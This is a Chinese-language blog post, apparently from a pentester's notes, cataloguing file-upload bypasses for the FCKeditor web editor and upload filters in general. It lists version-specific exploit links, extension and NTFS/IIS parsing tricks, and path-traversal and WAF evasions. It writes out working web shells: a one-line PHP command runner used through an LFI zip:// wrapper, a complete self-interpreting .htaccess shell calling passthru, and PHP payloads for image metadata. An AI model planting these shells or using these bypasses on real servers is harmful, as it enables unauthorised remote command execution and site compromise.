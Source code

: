 ```yaml
---
layout:     post
title:      fckeditor各版本绕过
date:       2016-08-12
summary:    fckeditor各版本绕过
categories: web
tags:
 - fckeditor
 - web
 - upload
---
```


### 0x00 fckeditor上传漏洞总结

    http://sec.chinabyte.com/206/13708206.shtml
    http://www.cnbraid.com/2015/07/09/fckeditor/
    http://www.it610.com/article/1842939.htm
    http://secureyes.net/nw/assets/File-Upload-Vulnerability-in-FCKEditor.pdf <=2.6.4

### 0x01 asp

    <=2.6.4
        http://secureyes.net/nw/assets/File-Upload-Vulnerability-in-FCKEditor.pdf
    2.6.6
        http://www.hack80.com/thread-320-1-1.html
        http://www.qhwins.com/ShowNews/?11-20109214030542523.html
    2.6.8
        http://www.freebuf.com/vuls/6408.html

### 0x02 php

    <=2.6.4
        http://secureyes.net/nw/assets/File-Upload-Vulnerability-in-FCKEditor.pdf

### 0x03 fckeditor经典尝试后缀

    1>将后缀改成.php.pjpg
    2>将后缀改成.html
    3>将后缀改成.lnk

### 0x04 其它上传技巧
    
    0>其他关于上传技巧的汇总
        https://www.lshack.cn/?p=152

    1>上传时,延迟一下再上传,有时能bypass admin,用到firefox tamper插件
        https://www.youtube.com/watch?v=ndeYnMoFPx8
        管理员登录绕过
            https://www.youtube.com/watch?v=UO-vzWFctTA
            https://www.youtube.com/watch?v=a5fm629s8Ao
                firefox noredirect插件
    2>双文件上传
    3>上传以图片后缀名为后缀的压缩文件,文件实际是一个webshell.php文件的压缩文件(zip),利用lfi漏洞并将lfi要包含
      的文件的参数赋值为:
        zip://archive.zip#webshell.php
        或
        zip://archive.zip#webshell.php&param1=system&param2=ls   ===>这里对应webshell.php为:
            <?php $_GET['param1']($_GET['param2']);?>
      这里适用的情况为:
        a>可上传任意内容文件(通过修改Content-Type等达到目的),但文件会被重命令为以png为后缀文件
        b>找到了lfi漏洞,但是lfi漏洞不能包函.|./|..|..\|...等情况
      更多细节:
        https://www.securusglobal.com/community/2016/08/19/abusing-php-wrappers/
    4>上传图片被resize等修改时,绕过方法: 
        a)利用上传前和上传后的文件对比找出没有变化的字符串,将其写payload
            http://www.freebuf.com/articles/web/54086.html
        b)老外的方法,比a)中的要好
            https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/
        用法:x.php?0=system post data:1=whoami,上面链接中的payload见如下phppayload
        c)上面b中的条件限制为png且大小为32x32,jpg绕过方法
            http://www.blogs8.cn/posts/WiA3bxU

<a href="https://www.idontplaydarts.com/images/phppng.png">phppayload</a>
<a href="https://raw.githubusercontent.com/3xp10it/pic/master/phppng.png">phppayload_bak_link</a>

    5>https://www.nds.rub.de/media/attachments/files/2012/11/File-in-the-hole.pdf
        多种上传技巧:
        a)将.htaccess本身作为webshell,解析本身.htaccess作为php
            http://www.justanotherhacker.com/2011/05/htaccess-based-attacks.html
            -----------------------自解析.htaccess--------------------------------
            # Self contained .htaccess web shell - Part of the htshell project
            # Written by Wireghoul - http://www.justanotherhacker.com

            # Override default deny rule to make .htaccess file accessible over web
            <Files ~ "^\.ht">
            Order allow,deny
            Allow from all
            </Files>

            # Make .htaccess file be interpreted as php file. This occur after apache has interpreted
            # the apache directoves from the .htaccess file
            AddType application/x-httpd-php .htaccess

            ###### SHELL ###### <?php echo "\n";passthru($_GET['c']." 2>&1"); ?>###### LLEHS ######
            -----------------------自解析.htaccess--------------------------------

        b)NTFS ADS
            1."file.asp::$data"=="file.asp"
            2."/folder:$i30:$Index_allocation"=="/folder"
            3.".htaccess:.jpg" -> make empty ".htaccess"=="HTACCESS~1"
                适用于.htaccess不让上传情况下,估计一般情况下都不让上传隐藏文件,这时通过burp将文件名名改成
                .htaccess:.jpg则可上传.htaccess文件
            4.通过文件上传来创建文件夹(windows下)
                https://www.youtube.com/v/Ws2JrZG679Q?version=3&hl=en_US&rel=0&vq=hd720
                detail:将文件名通过burp改成file::$Index_Allocation或者是file:$I30:$Index_Allocation,这样就会在服务器上新建file文件夹
        c)绕过../和..\保护:
            https://www.youtube.com/v/HjS6Pob5t34?version=3&hl=en_US&rel=0&vq=hd720
            ../改成.. /(..%20/)
            ..\改成.. \(..%20\)
        d)iis:
            file.asp;.jpg以asp解析
            /folder.asp/file.txt以asp解析
        e)文件名后有被忽略字符
            "test.asp . .. ." == "test.asp" 
            "test.php<>" == "test.php"
        f)在图片文件的文件属性中添加copyright属性为:
            <?=$_GET[0]($_POST[1]);?>
            这个暂时没有找到工具,好像要用photoshop
        g)"file.p.phphp"==>"file.php" 
        h)配置有误情况下:
            "/file.jpg/index.php"会将file.jpg按照php解析
        i)常见content-type"白名单":
            image/gif
            image/jpeg
            image/pjpeg

    6.上传.user.ini文件来解析图片或隐藏webshell[除.htaccess外的方法]
        https://ha.cker.in/1097.seo
    
    8.上传绕过waf
        https://github.com/3xp10it/sectec/blob/master/%E4%B8%8A%E4%BC%A0%E7%BB%95%E8%BF%87waf.pdf
